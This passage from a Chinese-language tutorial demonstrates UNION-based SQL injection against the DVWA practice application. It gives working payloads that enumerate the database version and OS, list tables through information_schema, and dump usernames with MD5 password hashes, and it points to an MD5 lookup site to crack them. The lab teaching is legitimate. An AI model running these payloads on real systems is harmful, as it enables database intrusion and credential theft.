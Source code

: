 通过上图返回信息，我们成功获取到：

- 当前网站使用数据库为 dvwa .
- 当前执行查询用户名为 root@localhost .

同理我们再输入 `1' union select version(),@@version_compile_os#`进行查询：

- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。

实际执行的Sql语句是:



```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;
```

![img](https:////upload-images.jianshu.io/upload_images/6230889-9ba5c1a172be5cca.png?imageMogr2/auto-orient/strip|imageView2/2/w/663/format/webp)

通过上图返回信息，我们又成功获取到：

- 当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
- 当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。
 `information_schema` 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：
 实际执行的Sql语句是：



```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;
```

![img](https:////upload-images.jianshu.io/upload_images/6230889-d00a04753ea91a27.png?imageMogr2/auto-orient/strip|imageView2/2/w/659/format/webp)

通过上图返回信息，我们再获取到：

- dvwa 数据库有两个数据表，分别是 guestbook 和 users .

**有些同学肯定还不满足目前获取到的信息，那么我们接下来尝试获取重量级的用户名、密码。**
 由经验我们可以大胆猜测users表的字段为 user 和 password ，所以输入：`1' union select user,password from users#`进行查询：
 实际执行的 Sql 语句是：



```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;
```

![img](https:////upload-images.jianshu.io/upload_images/6230889-c251e699ff9a9396.png?imageMogr2/auto-orient/strip|imageView2/2/w/662/format/webp)

可以看到成功爆出用户名、密码，密码采用 md5 进行加密，可以到`www.cmd5.com`进行解密。
 直此，同学们应该已经对 Sql 注入有了一个大概得了解，也清楚了 Sql 注入的强大。

